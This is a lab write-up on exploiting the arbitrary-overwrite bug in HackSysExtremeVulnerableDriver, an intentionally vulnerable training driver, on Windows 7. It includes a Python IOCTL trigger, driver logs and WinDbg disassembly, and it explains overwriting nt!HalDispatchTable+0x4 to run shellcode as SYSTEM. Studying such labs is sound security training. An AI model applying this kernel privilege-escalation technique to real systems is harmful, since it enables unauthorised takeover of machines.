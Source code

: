 ```yaml
---
layout:		post
title:		HackSysExtremeVulnerableDriver ArbitraryOverwrite
author:		wooy0ung
tags:		hevd
category:	exploit
---
```


>[Analysis Environment]  
>guest machine: Windows 7 x86 sp0  
>host machine: Windows 10  
>necessary tools: VirtualKD[[here]](http://virtualkd.sysprogs.org/)、OSRloader[[here]](https://www.osronline.com/article.cfm?article=157)、HackSysExtremeVulnerableDriver[[here]](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)、Windbg  
<!-- more -->


## 0x001 Test POC

Save this code，rename to poc.py
```
import sys
from ctypes import *

kernel32 = windll.kernel32
hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",0xc0000000,0,None,0x3,0,None)

if not hevDevice or hevDevice == -1:
	print "[-] Couldn't get Device Driver handle."
	sys.exit(0)
buf = "A"*4 + "B"*4
buflen = len(buf)

kernel32.DeviceIoControl(hevDevice,0x22200B,buf,buflen,None,0,byref(c_ulong()),None)
```

Execute this scripts, we can see it work fine!
```
 ##     ## ######## ##     ## ########  
 ##     ## ##       ##     ## ##     ## 
 ##     ## ##       ##     ## ##     ## 
 ######### ######   ##     ## ##     ## 
 ##     ## ##        ##   ##  ##     ## 
 ##     ## ##         ## ##   ##     ## 
 ##     ## ########    ###    ########  
   HackSys Extreme Vulnerable Driver    
             Version: 1.20              
[+] HackSys Extreme Vulnerable Driver Loaded
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
[+] UserWriteWhatWhere: 0x01AFB634
[+] WRITE_WHAT_WHERE Size: 0x8
[+] UserWriteWhatWhere->What: 0x41414141
[+] UserWriteWhatWhere->Where: 0x42424242
[+] Triggering Arbitrary Overwrite
[-] Exception Code: 0xC0000005
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
```


## 0x002 How to Exploit it?

At Addr 0x84122fa6, it will call nt!KeQueryIntervalProfile
```
kd> u nt!NtQueryIntervalProfile
kd> u
nt!NtQueryIntervalProfile+0x62:
84122f9d 7507            jne     nt!NtQueryIntervalProfile+0x6b (84122fa6)
84122f9f a16c1bf483      mov     eax,dword ptr [nt!KiProfileInterval (83f41b6c)]
84122fa4 eb05            jmp     nt!NtQueryIntervalProfile+0x70 (84122fab)
84122fa6 e8e6e8fbff      call    nt!KeQueryIntervalProfile (840e1891)
84122fab 84db            test    bl,bl
84122fad 741b            je      nt!NtQueryIntervalProfile+0x8f (84122fca)
84122faf c745fc01000000  mov     dword ptr [ebp-4],1
84122fb6 8906            mov     dword ptr [esi],eax
```

Step into nt!KeQueryIntervalProfile, and diasmbly
```
kd> u nt!KeQueryIntervalProfile
kd> u
nt!KeQueryIntervalProfile+0x23:
840e18b4 ff15bc23f483    call    dword ptr [nt!HalDispatchTable+0x4 (83f423bc)]
840e18ba 85c0            test    eax,eax
840e18bc 7c0b            jl      nt!KeQueryIntervalProfile+0x38 (840e18c9)
840e18be 807df400        cmp     byte ptr [ebp-0Ch],0
840e18c2 7405            je      nt!KeQueryIntervalProfile+0x38 (840e18c9)
840e18c4 8b45f8          mov     eax,dword ptr [ebp-8]
840e18c7 c9              leave
840e18c8 c3              ret
```
At Addr 0x840e18b4, it will call nt!HalDispatchTable+0x4

Overwrite the pointer at nt!HalDispatchTable+0x4 with the address of our shellcode function

In this challenge, I should use function id() to get the shellcode's object

Why? Maybe you can find out the answer in this picture!
![](/assets/img/exploit/2018-08-03-hacksys-extreme-vulnerable-driver-arbitraryoverwrite/0x001.png)

now, our shellcode in 0x01270000, there is 0x14 offset at object Addr
![](/assets/img/exploit/2018-08-03-hacksys-extreme-vulnerable-driver-arbitraryoverwrite/0x002.png)
```
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
[+] UserWriteWhatWhere: 0x01AD1C54
[+] WRITE_WHAT_WHERE Size: 0x8
[+] UserWriteWhatWhere->What: 0x01AD1C60
[+] UserWriteWhatWhere->Where: 0x83F373BC
[+] Triggering Arbitrary Overwrite
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
Access violation - code c0000005 (!!! second chance !!!)
00000001 ??              ???
kd> dc 0x01AD1C60
01ad1c60  00000001 679d9308 00000004 ffffffff  .......g........
01ad1c70  00000000 01270000 01ac1a00 00000044  ......'.....D...
01ad1c80  01ad1ca0 679d9308 0000000b 486da79e  .......g......mH
01ad1c90  00000001 49584557 41545354 00535554  ....WEXITSTATUS.
01ad1ca0  01ad1840 679d9308 00000007 e0702551  @......g....Q%p.
01ad1cb0  00000001 484f4e57 00474e41 00000026  ....WNOHANG.&...
01ad1cc0  00000001 679d9308 00000006 3f1c8d80  .......g.......?
01ad1cd0  00000001 75746573 00006469 01ad1ce0  ....setuid......
```

finally, I would get a system cmd!
![](/assets/img/exploit/2018-08-03-hacksys-extreme-vulnerable-driver-arbitraryoverwrite/0x003.png)